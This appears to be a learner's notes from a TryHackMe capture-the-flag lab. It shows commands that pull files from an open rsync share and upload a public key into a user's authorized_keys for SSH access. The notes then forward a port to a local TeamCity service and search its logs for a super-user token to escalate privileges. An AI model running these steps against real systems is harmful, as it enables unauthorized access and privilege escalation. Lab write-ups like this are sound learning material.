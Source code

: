 
 - rsync command to download file to local machine using
```
rsync -av rsync://rsync-connect@10.10.146.124:873/files ./rsync
```


- rsync command to upload file to remote machine using

```
rsync -ahv ./id_rsa.pub rsync://rsync-connect@10.10.146.124:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g
```

- password `Hcg3HP67@TW@Bc72v`

- used writeup for user id - `sys-internal`

- we can now login to the machine using

```
   │   ~/Desktop/THM/internal ▓▒░ ssh sys-internal@10.10.146.124 -i id_rsa 
```

### Priv Esc


- found unusual file in root
```
drwxr-xr-x  12 root root      4096 Feb  6  2021 TeamCity
```


- used writeup here

found out in the `Readme` file that Teamcity is running on port `8111`

now using [[SSH - port forwarding]] to get access to Teacmcity website

i run the command

```
   │   ~/Desktop/THM/internal ▓▒░ sudo ssh sys-internal@10.10.146.124 -i id_rsa -L 80:127.0.0.1:8111 
```

- on the website there is an options to run as super user and we get asked for a token, this must be somewhere in the `Teamcity directory` 

```
sys-internal@vulnnet-internal:/TeamCity$ find . -name *token* 2>/dev/null

./webapps/ROOT/WEB-INF/tags/admin/tokenDescription.tag
./webapps/ROOT/oauth/github/token.jsp
./webapps/ROOT/oauth/tfs/token.jsp
```

- Writeup
we can find the token in 

```
cat /TeamCity/logs/catalina.out
```
